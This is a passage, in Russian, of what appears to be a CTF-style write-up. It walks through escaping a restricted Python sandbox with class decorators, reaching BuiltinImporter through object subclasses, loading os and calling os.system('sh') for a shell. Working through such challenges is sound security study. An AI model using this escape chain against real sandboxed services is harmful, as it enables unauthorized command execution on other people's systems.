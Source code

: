 Теперь в `__builtins__['type']` лежит `<class 'object'>`.

### Шаг 5: получаем все производные от класса `object`

Как мы помним, `object_type.__class__` — это `<class 'type'>`, значит `object_type.__class__.__subclasses__(t: type)` — это функция, возвращающая все производные от класса `t`. Если мы передадим туда `object_type`, мы получим все производные от класса `object`.

```python
@object_type.__class__.__subclasses__
@__builtins__.get
class type:
    pass
```

Объявление класса вернёт строку `'type'`, `@__builtins__.get` на этой строке вернёт `<class 'object'>`, `@object_type.__class__.__subclasses__` на нём вернёт список всех производных класса `object` и положит их в переменную `type` (имя класса).

### Шаг 6: достаём класс `BuiltinImporter` из производных от класса `object`

Запустим локально нужную версию Python и убедимся, что класс `BuiltinImporter` лежит по смещению 84 в списке производных классов (в переменной `type`), значит нам нужно воспользоваться функцией списка `type.__getitem__` и передать туда число 84. Но числа у нас запрещены, поэтому придётся как-то их выразить. Как мы помним, `method_name.__class__` — это `<class 'str'>`, следовательно `method_name.__class__.__sizeof__` — это метод класса строки, возвращающий размер структуры строки во внутренней памяти Python. Не будем погружаться во внутренности, просто попробуем разные строки и выясним, что размер 84 имеет структура строки длины 35. Создадим нужный класс и вызовем на нём эти методы:

```python
@type.__getitem__
@method_name.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:
    pass
```

Теперь в переменной `offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx` лежит класс `BuiltinImporter`.

### Шаг 7: импортируем `os` и вызываем `os.system('sh')`

У класса `BuiltinImporter` есть метод `load_module`, который первым аргументом принимает имя нужного модуля. Дальнейшие действия тривиальны: нам нужно создать строку `os`, вызвать на ней `BuiltinImporter.load_module`, затем создать строку `sh` и вызвать на ней `os.system`. Нам понадобится два класса:

```python
@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:
    pass
```

После этого действия в переменной `os` лежит модуль `os`.

```python
@os.system
class sh:
    pass
```
